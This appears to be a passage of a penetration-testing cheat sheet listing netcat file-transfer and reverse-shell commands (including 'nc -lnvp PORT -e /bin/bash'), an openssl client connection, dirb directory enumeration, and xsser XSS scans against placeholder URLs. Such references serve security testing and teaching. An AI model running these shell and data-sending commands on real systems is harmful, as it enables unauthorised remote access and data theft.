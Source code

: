 Other http verbs: GET, HEAD, OPTIONS, POST, PUT, DELETE

Server/Client
```
nc -lnvp PORT > data.txt
```
```
nc -v IP PORT < data.txt
```

Reverse shell
```
nc -lnvp PORT -e /bin/bash
```
```
nc -v IP PORT
```

**openssl**<br>
-connect: IP:PORT<br>
s_client: create ssl client
```
openssl s_client -connect IP:PORT
```

### WEB DIRECTORY ENUMERATION

**dirbuster**<br>
-w WORDLIST<br>
-a USER_AGENT<br>
-p PROXY_IP (use with burp suite)<br>
-c COOKIE<br>
-u USERNAME:PASSWORD<br>
-H HEADER<br>
-r: no recursive scan<br>
-s: silent<br>
-X FILE_EXTENSIONS<br>
-x EXTENSIONS_FILE<br>
-o OUTPUT_FILE
```
dirb URL -w /usr/share/wordlists
```

### XSS

**xsser**<br>
--url URL<br>
-p POST_DATA

GET request<br>
replace target parameter with XSS
```
xsser --url "http://URL.com?p1=XSS&button=Submit"
```

POST request<br>
replace target parameter with XSS
```
xsser --url 'http://URL.com' -p 'p1=XSS&p2=data'
```
